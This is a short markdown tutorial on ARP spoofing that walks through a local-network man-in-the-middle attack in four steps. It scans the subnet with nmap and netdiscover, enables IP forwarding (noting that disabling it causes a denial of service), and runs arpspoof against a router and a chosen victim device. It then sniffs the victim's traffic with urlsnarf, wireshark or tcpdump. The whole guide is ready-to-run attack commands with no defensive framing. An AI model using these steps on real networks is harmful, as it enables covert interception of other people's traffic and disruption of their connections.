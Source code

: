 # ARP Spoofing

## Step 1

* run nmap or netdiscover to list the devices on the network

```bash
nmap -vvv 192.168.1.0/24
```

```bash
netdiscover -r 192.168.1.0/24
```

## Step 2

* without changing it to 1 you will only block the traffic, not forward it
* that will bring down that connection, DoS
* if you want to do that make sure it is set to 0
* to intercept it make sure it is set to 1

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

## Step 3

* the interface flag
* in this example we choose the wlan0 interface
* run ifconfig to see which interfaces you have available

```bash
-i
```

* the target flag
* specifies your target
* the first address is the router
* the second is the specific device you want to target

```bash
-t
```

* example

```bash
arpspoof -i wlan0 -t 192.168.1.1 192.168.1.105
```

## Step 4

* now you are intercepting the traffic
* few choices how to read it. Some tools include
* urlsnarf

```bash
urlsnarf -i wlan0
```

* wireshark, Just open wireshark and select the interface and start capturing
* tcpdump
